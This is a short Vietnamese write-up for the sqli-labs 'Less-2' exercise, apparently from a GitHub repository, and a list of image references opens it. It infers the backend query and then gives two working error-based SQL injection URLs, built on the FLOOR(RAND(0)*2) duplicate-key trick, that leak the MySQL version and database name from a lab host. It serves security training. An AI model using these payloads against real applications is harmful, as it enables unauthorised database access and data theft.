








# Less 2

Ta thấy ở bài này là lỗi error based



Đề bài yêu cầu truyền vào giá trị là số



Nhập thử một số giá trị



Dự đoán câu query sẽ là:

```
select name, passwd from table where id='$ID'
```

Tiếp tục truyền vào một số giá trị





Chứng tỏ `$ID` không nằm trong dấu nháy. Câu query có thể là:

```
select name, passwd from table where id=$ID
```



Câu query lúc này có thể là:

```
select name, passwd from table where id=$ID limit 0,1
```

Ta có thể xem được một số thông tin của DB

```
http://192.168.84.233/sqli-labs/Less-2/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



```
http://192.168.84.233/sqli-labs/Less-2/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Thao tác được giống với ở [Less-1](sqli-labs/Less-1.md)